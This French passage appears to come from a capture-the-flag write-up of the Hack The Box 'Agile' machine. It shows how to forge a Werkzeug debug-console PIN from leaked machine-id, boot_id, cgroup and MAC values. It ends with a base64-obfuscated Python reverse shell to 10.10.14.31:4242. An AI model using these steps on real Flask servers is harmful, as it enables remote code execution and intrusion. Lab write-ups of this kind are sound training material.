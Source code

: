 
Avec un .env :

```yaml
# env file used to generate the pin code for werkzeug console.

# All values are samples. Try to leak your own values !

MACHINEID="ed5b159560f54721827644bc9b220d00" # ie /etc/machine-id. If not found, refer to boot-id

BOOTID="79ebdecc-32c3-4fd7-8e35-e2b400317a57" # ie /proc/sys/kernel/random/boot_id

CGROUP="0::/system.slice/superpass.service" #ie /proc/self/cgroup

USERNAME="www-data" # ie /proc/self/environ

FLASKPATH="/app/venv/lib/python3.10/site-packages/flask/app.py"#sample

DEVICEMACADDRESS="00:50:56:96:2f:9d" # Sample. Leak /proc/net/arp then, leak /sys/class/net/<device>/address. Enter the mac address.
```

Ce qui nous donne comme résultats :

```bash
kibatche@kibatche-System-Product-Name:/media/kibatche/Achille/shared_folder_vm/HTB/Boxes/Agile$ ./werkzeug_generate_pin.py 
['345050066845', b'ed5b159560f54721827644bc9b220d00superpass.service']
Public Bits : f['www-data', 'flask.app', 'Flask', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 940-671-208 | cookie name : __wzd5b18af0a915bb04d69e0
Public Bits : f['www-data', 'flask.app', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 107-923-781 | cookie name : __wzd3c4b320f8234bb237797
Public Bits : f['www-data', 'flask.app', 'DebuggedApplication', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 871-298-182 | cookie name : __wzd6aae691df26d92e8fe95
Public Bits : f['www-data', 'werkzeug.debug', 'Flask', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 690-460-006 | cookie name : __wzd690032cbc16664857bba
Public Bits : f['www-data', 'werkzeug.debug', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 814-957-451 | cookie name : __wzdb0228e28f104c7a49d6e
Public Bits : f['www-data', 'werkzeug.debug', 'DebuggedApplication', '/app/venv/lib/python3.10/site-packages/flask/app.py']
Pin code : 173-461-126 | cookie name : __wzd74c32e5b18e85b88455f
```

Le second pin-code : 107-923-781 est le bon !

Dans la console on peut faire un reverse shell :

```python
__import__('os').popen('echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMzEiLDQyNDIpKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn | base64 -d | bash').read();
```
